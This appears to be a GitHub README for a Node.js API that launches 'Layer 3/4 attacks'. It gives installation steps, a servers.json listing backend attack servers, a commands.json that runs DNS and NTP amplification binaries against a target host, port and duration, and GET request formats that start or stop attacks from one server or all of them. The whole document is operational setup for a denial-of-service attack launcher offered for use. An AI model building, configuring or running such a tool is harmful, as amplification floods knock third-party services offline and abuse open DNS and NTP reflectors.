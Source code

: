 <h2>NodeJS API for Layer 3/4 attacks</h2>

<h3>Coded by forky (tg: ***@yfork***)</h3>

<h4>This API is very secure and fast (taking 2x the ping between API and backend, if the ping is 60ms it will take only 120ms to launch the attack)</h4>


<h1>Installation:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo apt -y install nodejs
npm i express
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "alpha": {
        "name": "alpha",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "beta": {
        "name": "beta",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "DNS": "screen -dmS attack_${attack_id} ./dns_amp ${host} ${port} dns.txt 1 250000 ${time}",
    "NTP": "screen -dmS attack_${attack_id} ./ntp_amp ${host} ${port} ntp.txt 1 250000 ${time}",
    "STOP": "screen -dm pkill -f ${host}"
}
```

<h3>Update api.js:</h3><br>

```
const api_port: Your API HTTP Port
const socket_token: Your secret Token for the TCP Socket
const api_key: Your API Key
const domain_lock: true or false (if its set to true you can only access the API if using the domain on api_domain)
```

<h3>Update socket.js:</h3><br>

```
const socket_port: Your socket port
const socket_token: Your secret Token for the TCP Socket (must be same as api.js)
const allowed_ips: The api.js server IP
```

### Reverse Proxy

We recommend making a reverse proxy using Nginx to use your API:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api/attack {
        proxy_pass http://backend:3000/api/attack;
    }
}
```

Replace `'http://backend:3000/api/attack'` with your API server URL

### Using the API

Send a GET request to the API using the required fields

GET `https://api.yourdomain.com/api?host=1.1.1.1&port=80&time=120&method=DNS&server=alpha`

You can set &server=all to launch to all servers

You can stop attacks by sending a GET request to the API using &method=stop

GET `https://api.yourdomain.com/api?host=1.1.1.1&port=80&time=120&method=stop&server=alpha`

